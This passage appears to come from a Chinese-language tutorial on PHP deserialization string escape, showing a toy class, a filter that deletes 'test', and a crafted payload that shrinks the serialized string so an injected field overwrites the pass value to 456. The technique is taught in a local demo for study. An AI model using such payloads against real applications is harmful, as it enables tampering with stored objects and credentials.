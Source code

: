 ```php
	echo $c->pass;
?>
```

```
O:1:"A":3:{s:4:"name";s:4:"test";s:4:"user";s:3:"bob";s:4:"pass";s:3:"123";}
after filter:
O:1:"A":3:{s:4:"name";s:4:"";s:4:"user";s:3:"bob";s:4:"pass";s:3:"123";}
Notice: unserialize(): Error at offset 31 of 72 bytes in \out_1.php on line 18
```

name 的内容为空 但是大小为 4

相当于我们要闭合掉 `";s:4:"user";s:3:"` 的内容

同样的,当仅 name 和 user 的值可控的情况下,需要通过 `";` 来构造闭合

相应 payload
```php
public $name='testtesttesttesttest';
public $user='a";s:4:"user";s:3:"bob";s:4:"pass";s:3:"456";}';
```

```php
<?php
function filter($str){
    return str_replace('test', '', $str);
}
class A{
    public $name='testtesttesttesttest';
	public $user='a";s:4:"user";s:3:"bob";s:4:"pass";s:3:"456";}';
    public $pass='123';
}
	$a=new A();
	$s = serialize($a);
	echo $s;
	$res=filter($s);
	echo '</br>after filter:</br>';
	echo $res;
	$c=unserialize($res);
	echo '</br>';
	echo $c->pass;
?>
```

```
O:1:"A":3:{s:4:"name";s:20:"testtesttesttesttest";s:4:"user";s:46:"a";s:4:"user";s:3:"bob";s:4:"pass";s:3:"456";}";s:4:"pass";s:3:"123";}
after filter:
O:1:"A":3:{s:4:"name";s:20:"";s:4:"user";s:46:"a";s:4:"user";s:3:"bob";s:4:"pass";s:3:"456";}";s:4:"pass";s:3:"123";}
456
```

---
